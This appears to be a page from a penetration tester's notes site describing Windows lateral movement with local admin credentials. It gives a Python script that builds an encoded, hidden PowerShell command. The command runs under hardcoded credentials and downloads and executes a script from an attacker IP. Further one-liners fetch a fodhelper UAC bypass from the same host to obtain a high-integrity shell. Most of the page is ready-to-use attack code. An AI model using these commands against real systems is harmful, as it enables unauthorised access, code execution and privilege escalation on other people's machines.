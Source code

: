 # Local Admin Lateral Movement

Useful if unable to PsExec, RDP, WINRM, but has local admin creds and low-privileged shell

**ps\_script.py**

* Edit lines 5-6 to be local admin creds
* Edit line 8 for attacker's IP for simple\_ps\_revshell

{% code lineNumbers="true" %}
```python
import base64

# Prepare the corrected PowerShell payload script to run as Bill
payload = (
    "$p=ConvertTo-SecureString 'P@ssw0rd123!' -AsPlainText -Force; "
    "$c=New-Object System.Management.Automation.PSCredential('client02\\bill',$p); "
    "Start-Process -FilePath 'powershell.exe' -ArgumentList "
    "'-NoProfile -ExecutionPolicy Bypass -Command iex (New-Object Net.WebClient).DownloadString(''http://192.168.45.218/runall.ps1'')' "
    "-Credential $c -WindowStyle Hidden"
)

# Encode the payload in UTF-16LE and then Base64
b64 = base64.b64encode(payload.encode('utf-16le')).decode('ascii')

# Construct the final one-liner for execution
one_liner = f"powershell.exe -NoProfile -NonInteractive -EncodedCommand {b64}"

# Display the one-liner
print(one_liner)
```
{% endcode %}

python ps\_script.py

<figure><img src="../.gitbook/assets/image (335).png" alt=""><figcaption></figcaption></figure>

Then paste the encoded powershell command in the low privileged shell

<figure><img src="../.gitbook/assets/image (336).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (337).png" alt=""><figcaption><p>This is normal!</p></figcaption></figure>

Might obtain a medium integrity shell only (checked using `whoami /all`)

<figure><img src="../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

[Bypass UAC using fodhelper.ps1](../privilege-escalation/privilege-escalation-windows.md#user-in-local-group-with-admin-privileges-uac-bypass)

```
iex (new-object net.webclient).downloadstring('http://192.168.45.218/FodhelperBypass.ps1')

# Edit IP and port in simple_ps_revshell.ps1
FodhelperBypass -program "powershell -c iex (new-object net.webclient).downloadstring('http://192.168.45.218/runall.ps1')"
```

Obtained high integrity shell&#x20;

<figure><img src="../.gitbook/assets/image (338).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (339).png" alt=""><figcaption></figcaption></figure>
